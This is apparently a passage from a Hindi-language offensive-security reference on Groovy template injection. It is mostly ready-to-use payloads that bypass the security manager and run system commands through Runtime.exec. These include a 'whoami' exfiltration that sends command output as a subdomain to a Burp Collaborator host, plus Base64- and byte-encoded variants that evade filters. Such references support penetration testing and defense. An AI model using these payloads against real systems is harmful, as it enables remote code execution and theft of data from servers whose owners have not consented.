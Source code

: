 ### ग्रूवी (Java)

निम्नलिखित सुरक्षा प्रबंधक बायपास इस [**लेख**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/) से लिए गए हैं।
```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "whoami";
out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x")
this.evaluate(new String(java.util.Base64.getDecoder().decode("QGdyb292eS50cmFuc2Zvcm0uQVNUVGVzdCh2YWx1ZT17YXNzZXJ0IGphdmEubGFuZy5SdW50aW1lLmdldFJ1bnRpbWUoKS5leGVjKCJpZCIpfSlkZWYgeA==")))
this.evaluate(new String(new byte[]{64, 103, 114, 111, 111, 118, 121, 46, 116, 114, 97, 110, 115, 102, 111, 114, 109, 46, 65, 83, 84, 84, 101, 115, 116, 40, 118, 97, 108, 117, 101, 61, 123, 97, 115, 115, 101, 114, 116, 32, 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101, 46, 103, 101, 116, 82,117, 110, 116, 105, 109, 101, 40, 41, 46, 101, 120, 101, 99, 40, 34, 105, 100, 34, 41, 125, 41, 100, 101, 102, 32, 120}))
```
### Other Java

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NHgR25-CMICMhPOaIJzqwQ.jpeg">https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NHgR25-CMICMhPOaIJzqwQ.jpeg</a></p></figcaption></figure>